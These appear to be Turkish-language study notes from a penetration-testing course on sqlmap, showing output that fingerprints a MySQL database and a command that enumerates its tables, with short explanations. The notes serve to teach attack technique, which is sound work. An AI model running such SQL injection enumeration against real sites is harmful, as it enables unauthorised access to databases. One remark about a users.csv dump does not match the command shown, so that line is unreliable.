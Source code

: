 ```shell-session
back-end DBMS: MySQL >= 5.0
banner: '5.1.41-3~bpo50+1'
[13:30:58] [INFO] fetching current user
current user: 'root@%'
[13:30:58] [INFO] fetching current database
current database: 'testdb'
[13:30:58] [INFO] testing if current user is DBA
[13:30:58] [INFO] fetching current user
current user is DBA: True
[13:30:58] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/www.example.com'

[*] ending @ 13:30:58 /2020-09-17/
```

Yukarıdaki örnekten, veritabanı sürümünün oldukça eski olduğunu (MySQL 5.1.41 - Kasım 2009'dan) ve mevcut kullanıcı adının root, mevcut veritabanı adının ise testdb olduğunu görebiliriz.

**Not:** Veritabanı bağlamındaki 'root' kullanıcısının, büyük çoğunlukla, işletim sistemi (OS) kullanıcısı olan "root" ile herhangi bir ilişkisi yoktur. Tek benzerlik, her ikisinin de kendi bağlamlarında ayrıcalıklı kullanıcıyı temsil etmesidir. Bu, temel olarak şunu ifade eder: Veritabanı kullanıcısının veritabanı bağlamında herhangi bir kısıtlaması olmamalıdır, ancak işletim sistemi ayrıcalıkları (örneğin, dosya sistemine rastgele bir konuma yazma yetkisi) en az düzeyde tutulmalıdır, özellikle son zamanlardaki dağıtımlarda. Aynı ilke genel 'DBA' rolü için de geçerlidir.


## Table Enumeration

En yaygın senaryolarda, mevcut veritabanı adını (örn. testdb) bulduktan sonra, tablo adlarının alınması --tables seçeneğini kullanarak ve DB adını -D testdb ile belirterek aşağıdaki gibi olacaktır:

```shell-session
M1R4CKCK@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --tables -D testdb

...SNIP...
[13:59:24] [INFO] fetching tables for database: 'testdb'
Database: testdb
[4 tables]
+---------------+
| member        |
| data          |
| international |
| users         |
+---------------+
```

Konsol çıktısı, tablonun local bir dosyaya (users.csv) biçimlendirilmiş CSV formatında döküldüğünü gösterir.

İpucu: Varsayılan CSV dışında, `--dump-format` seçeneğiyle çıktı formatını HTML veya SQLite olarak belirleyebiliriz, böylece daha sonra DB'yi bir SQLite ortamında daha fazla inceleyebiliriz.


![Pasted image 20241215050348.png](/img/user/resimler/Pasted%20image%2020241215050348.png)
